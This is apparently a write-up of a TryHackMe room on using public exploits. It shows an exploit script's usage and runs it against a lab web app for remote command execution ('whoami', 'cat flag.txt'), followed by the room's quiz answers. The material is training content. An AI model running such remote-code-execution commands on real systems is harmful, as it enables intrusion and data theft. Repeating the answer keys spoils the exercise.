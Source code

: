 Listing the arguments for an exploit  
```bash
exploit.py --help  
To use this exploit, provide the following arguments:  
-u The URL of the application  
-c the command that you wish to execute  
```

With this information in mind, we are now ready to use this exploit on the vulnerable machine. We are going to do the following:

Use the exploit to upload a malicious file to the vulnerable application containing whatever command we wish to execute, where the web server will run this malicious file to execute the code.  
The file will first contain a basic command that we will use to verify that the exploit has worked.  
Then we are going to read the contents of a file located on the vulnerable machine.

Running the exploit to output the name of the user that the application is running as  
```bash
exploit.py -u http://10.10.10.10 -c "whoami"  
www-data  
```

Running the exploit to output the contents of a file on the target machine  
```bash
exploit.py -u http://10.10.10.10 -c "cat flag.txt"  
THM{EXPLOIT_COMPLETE}  
```
### Question 1:  
What type of vulnerability was used in this attack?  
**Answer:** Remote Code Execution

## Task 5 Practical: Manual Exploitation  
Note: You will need to either deploy the AttackBox or connect to the TryHackMe network to complete this task.

Deploy the machine attached to this task and wait a minimum of five minutes for it to be fully set up. After five minutes, visit the webserver running on the machine by navigating to http://10.10.68.123 in the browser of the device connected to the THM network (your own or the AttackBox).



![image](https://github.com/user-attachments/assets/2cb67ac8-11d6-4fbb-9151-c2f53d639bc8)


### Question 1:
Find out the version of the application that is running. What are the name and version number of the application?

**Answer:** Online Book Store v1.0


![image](https://github.com/user-attachments/assets/130e9d35-298e-4e55-9aaf-e608cc24df89)


### Question 2:
Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine.
